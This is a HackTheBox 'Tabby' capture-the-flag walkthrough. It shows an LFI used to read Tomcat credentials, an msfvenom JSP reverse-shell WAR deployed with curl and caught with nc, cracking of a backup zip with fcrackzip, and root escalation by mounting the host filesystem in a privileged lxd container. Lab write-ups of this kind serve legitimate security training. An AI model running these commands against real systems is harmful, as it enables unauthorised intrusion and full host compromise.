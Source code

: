 ```yaml
---
title: HackTheBox Tabby Writeup
published: true
---
```


![](https://i.ibb.co/mBPb1hs/logo.png)

# []()Methodology

* nmap scan
* LFI Lead to read tomcat user credentials
* exploitation by Metasploit
* crack zip file by fcrackzip 
* user part
* Privilege Escalation

# []()Nmap Scan

> as always, i’ll do nmap scan to find out which services running in this machine.

* 8080 for apache tomcat

* 22 for ssh

* from nmap scan i know that there is a apache tomcat server.

```ruby

# Nmap 7.80 scan initiated Sun Jun 21 05:43:17 2020 as: nmap -sC -sV -oN scan.txt 10.10.10.194
Nmap scan report for 10.10.10.194
Host is up (0.13s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

> let's check the web page now.

![](https://i.ibb.co/b5RHnQj/webpage-mega.png)

> after looking at the source code i found the way to exploit LFI, let's see how.

![](https://i.ibb.co/BNg7ZrK/lfi-param.png)

# []() LFI Part

* from the source code i've found the url: http://megahosting.htb/news.php?file=

> the file parameter was vulnerable to LFI, let's check it.

![](https://i.ibb.co/qNY5mWv/lfi-done.png)

* now we have lfi, let's check the port 8080 now.

![](https://i.ibb.co/Hp3ND9s/port-8080.png)

> from this page we know that the users data we will find it at **tomcat9/tomcat-users.xml**, let's use lfi now.

* from Apache tomcat [Docs](http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html) i know that the file will be in **/usr/share/tomcat9/etc/tomcat-users.xml**

* if you are a linux user you will know that without any blogs because any program data will be found at **/usr/share**

> here is the credentials for apache tomcat server.

![](https://i.ibb.co/xfR6Rjq/user-data.png)

* username:**tomcat**
* password:**$3cureP4s5w0rd123!**

> now we have the credentials, let's use metasploit now to exploit this service.

# []() Exploitation Part

> exploitation part was very easy, we need a **wat** format backdoor to upload to the server and start deploying it to get a reverse shell.

* let's generate a war file with **msfvenom**.

> **msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.xx LPORT=9002 -f war > xdev0.war**

* after generating this file we need to upload it and deploy it as a new application.

> **curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file xdev0.war "http://10.10.10.194:8080/manager/text/deploy?path=xdev0.war"**

```ruby

╭─xdev05@nic3One ~/Documents/HTB/Tabby  
╰─➤  curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file xdev0.war "http://10.10.10.194:8080/manager/text/deploy?path=/xdev0.war"
OK - Deployed application at context path [/xdev0.war]
╭─

```
> let's start nc listener now and open this link http://10.10.10.194:8080/xdev0.war/.

![](https://i.ibb.co/pytCy44/nc.png)

* nice!

> in this point you can use metasploit too.

![](https://i.ibb.co/r3rWxQj/metasploit.png)

# []()USER Part

> after some enumeration, I've found a compressed backup file and after cracking this file I used its password to escalate my privilege to the user privileges.

* here is the backup file

![](https://i.ibb.co/nsZ1vjz/backup-file.png)

* let's crack it now with **fcrackzip**

> **fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip**

![](https://i.ibb.co/5TFBTT6/fcrack-result.png)

* let's escalate our privilege now.

> **su ash**

![](https://i.ibb.co/p2GjmMp/user.png)

* user part done!.

# []()ROOT Part

> the user **ash** is a member of **lxd local group**

```ruby

ash@tabby:~$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)

```
> from this [Blog](https://www.hackingarticles.in/lxd-privilege-escalation/) i know the way to escalate my privileges to root privilege.

1. **Steps to be performed on the attacker machine.**

* Download build-alpine in your local machine through the git repository.

* Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.

* Transfer the tar file to the host machine

2. **Steps to be performed on the Tabby machine.**

* Download the alpine image from your machine

* Import image for lxd

* Initialize the image inside a new container.

* Mount the container inside the /root directory 

* let's start now.

```ruby

╭─xdev05@nic3One ~/Documents/HTB/Tabby/lxd-alpine-builder  ‹master*› 
╰─➤  ls
alpine-v3.12-x86_64-20201106_1805.tar.gz  build-alpine  LICENSE  README.md
╭─xdev05@nic3One ~/Documents/HTB/Tabby/lxd-alpine-builder  ‹master*› 
╰─➤  

```

> let's start a python server and upload the image to the Tabby machine

![](https://i.ibb.co/NYBx9dG/lxd-upload.png)

* now let's import our image

> **lxc image import ./alpine-v3.12-x86_64-20201106_1805.tar.gz --alias devil**

![](https://i.ibb.co/kHqxxx4/image-lxc.png)

> **lxc init devil ignite -c security.privileged=true

> **lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true**

> **lxc start ignite**

> **lxc exec ignite /bin/sh**

![](https://i.ibb.co/QrGJ4st/root-part.png)

> root flag

```ruby

/mnt/root/root # cat root.txt
cat root.txt
8eca10cfde310d8b2c7668bee56818b5
/mnt/root/root #

```

* Thanks for reading.

* Cheers!

 <script src="https://www.hackthebox.eu/badge/103789"></script>


